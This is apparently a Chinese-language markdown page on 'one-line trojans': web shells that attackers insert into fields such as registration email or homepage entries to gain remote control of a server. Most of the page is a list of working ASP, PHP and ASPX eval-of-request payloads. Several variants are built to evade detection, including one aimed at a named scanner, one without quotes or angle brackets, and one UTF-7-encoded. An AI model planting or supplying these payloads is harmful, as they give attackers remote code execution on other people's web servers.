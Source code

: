 # 一句话木马

黑客在注册信息的电子邮箱或者个人主页等中插入类似如下代码：

&lt;%execute request\("value"\)%&gt;

其中value是值，所以你可以更改自己的值，前面的request就是获取这个值

&lt;%eval request\("value"\)%&gt;\(现在比较多见的，而且字符少，对表单字数有限制的地方特别的实用\)

当知道了数据库的URL，就可以利用本地一张网页进行连接得到Webshell。（不知道数据库也可以，只要知道&lt;%eval request\("value"\)%&gt;这个文件被插入到哪一个ASP文件里面就可以了。）

这就被称为一句话木马，它是基于B/S结构的。

常用一句话木马

asp一句话木马：

&lt;%execute\(request\("value"\)\)%&gt;

php一句话木马：

&lt;?php @eval\($\_POST\[value\]\);?&gt;

aspx一句话木马：

&lt;%@ Page Language="Jscript"%&gt;

&lt;%eval\(Request.Item\["value"\]\)%&gt;

其他一句话木马：

&lt;%eval request\("value"\)%&gt;

&lt;%execute request\("value"\)%&gt;

&lt;%execute\(request\("value"\)\)%&gt;

&lt;%If Request\("value"\)&lt;&gt;"" Then Execute\(Request\("value"\)\)%&gt;

&lt;%if request \("value"\)&lt;&gt;""then session\("value"\)=request\("value"\):end if:if session\("value"\)&lt;&gt;"" then execute session\("value"\)%&gt;

&lt;SCRIPT language=VBScript runat="server"&gt;execute request\("value"\)&lt;/SCRIPT&gt;

&lt;%@ Page Language="Jscript"%&gt;

&lt;%eval\(Request.Item\["value"\],"unsafe"\);%&gt;

可以躲过雷客图的一句话木马：

&lt;%

set ms = server.CreateObject\("MSScriptControl.ScriptControl.1"\)

ms.Language="VBScript"

ms.AddObject "Response", Response

ms.AddObject "request", request

ms.ExecuteStatement\("ev"&"al\(request\(""value""\)\)"\)

%&gt;

不用'&lt;,&gt;'的asp一句话木马：

&lt;script language=VBScript runat=server&gt;execute request\("value"\)&lt;/script&gt;

不用双引号的一句话木马：

&lt;%eval request\(chr\(35\)\)%&gt;

UTF-7编码加密:

&lt;%@ codepage=65000%&gt;&lt;% response.Charset=”936″%&gt;&lt;%e+j-x+j-e+j-c+j-u+j-t+j-e+j-\(+j-r+j-e+j-q+j-u+j-e+j-s+j-t+j-\(+j-+ACI-\#+ACI\)+j-\)+j-%&gt;

